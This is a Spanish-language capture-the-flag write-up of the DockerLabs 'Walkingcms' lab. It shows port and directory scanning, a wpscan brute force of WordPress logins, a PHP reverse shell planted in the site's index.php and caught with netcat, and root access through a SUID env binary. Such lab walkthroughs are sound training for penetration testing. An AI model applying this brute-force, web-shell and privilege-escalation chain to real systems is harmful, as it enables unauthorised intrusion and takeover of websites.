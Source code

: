 # Maquina Walkingcms - DockerLabs

* Nivel : Fácil
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 172.18.0.2

## Escaneo de puertos

```bash
sudo nmap -A -O -sV -T4 -p- -Pn 172.17.0.2
```
```bash
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/27%OT=80%CT=1%CU=40037%PV=Y%DS=1%DC=D%G=Y%M=0242A
OS:C%TM=685E71BD%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=Z%II
OS:=I%TS=A)SEQ(SP=FD%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O
OS:2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)
OS:WIN(W1=7C70%W2=7C70%W3=7C70%W4=7C70%W5=7C70%W6=7C70)ECN(R=Y%DF=Y%T=40%W=
OS:7D78%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```
Puerto abierto el 80. Entonces are un escano de la aplicación web.

## Escaneo web

```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirb/big.txt -t 30 -x php,txt,htm
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,htm
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.htm        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.htm        (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished

```

El gobuster a encontrado la ruta /wordpress/ donde hay un wordpress, entonces hacer un escaneo con wpscan.

## WPSCAN

Utilizo wpscan para hacer un ataque de fuerza bruta y buscar users con su contraseña.
```bash
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt
```
```bash
[!] Valid Combinations Found:
 | Username: mario, Password: love
```
Ha encontrado el user mario con el password love

Utilizo ffuf para buscar otros directorios, busco el login.
```bash
sudo ffuf -w /usr/share/dirb/wordlists/big.txt -u http://172.17.0.2/wordpress/FUZZ -e .php,.html,.bak,.txt
```
```bash
.htaccess.html          [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htaccess.bak           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htaccess.txt           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htaccess.php           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 1ms]
.htpasswd.bak           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htpasswd.php           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 1ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 1ms]
.htpasswd.txt           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htpasswd.html          [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 267ms]
license.txt             [Status: 200, Size: 19915, Words: 3331, Lines: 385, Duration: 17ms]
readme.html             [Status: 200, Size: 7399, Words: 750, Lines: 98, Duration: 2ms]
wp-admin                [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1ms]
wp-content              [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 4ms]
wp-includes             [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 5ms]
wp-login.php            [Status: 200, Size: 7748, Words: 359, Lines: 117, Duration: 332ms]
wp-config.php           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 353ms]
wp-trackback.php        [Status: 200, Size: 136, Words: 9, Lines: 5, Duration: 343ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 242ms]

````
Entro en la ruta /wp-login.php/ y en el panel de login introducir el user y la password.

## Dentro del wordpress

He probado a poner un reverse shell en el index.php. He descargado este reverse shell y configurado la ip de mi maquina y puerto

```bash
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
el puerto en el que escuchara la maquina con netcat

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [172.17.0.2] 45650
whoami
www-data

```

## Escalar privilegios

Una vez soy www-data, busco vulnerabilidades.
```bash
find / -perm -4000 -ls 2>/dev/null
  2097844     36 -rwsr-xr-x   1 root     root        35128 Mar 23  2023 /usr/bin/umount
  2108193     48 -rwsr-xr-x   1 root     root        48536 Sep 20  2022 /usr/bin/env
  2097627     64 -rwsr-xr-x   1 root     root        62672 Mar 23  2023 /usr/bin/chfn
  2097820     72 -rwsr-xr-x   1 root     root        72000 Mar 23  2023 /usr/bin/su
  2097757     48 -rwsr-xr-x   1 root     root        48896 Mar 23  2023 /usr/bin/newgrp
  2097768     68 -rwsr-xr-x   1 root     root        68248 Mar 23  2023 /usr/bin/passwd
  2097694     88 -rwsr-xr-x   1 root     root        88496 Mar 23  2023 /usr/bin/gpasswd
  2097633     52 -rwsr-xr-x   1 root     root        52880 Mar 23  2023 /usr/bin/chsh
  2097752     60 -rwsr-xr-x   1 root     root        59704 Mar 23  2023 /usr/bin/mount

```
He encontrado el env, que con GTFobins, puedo usar un comando para usar el SUID del archivo.

```bash
./usr/bin/env /bin/sh -p
```

Y ya eres root.

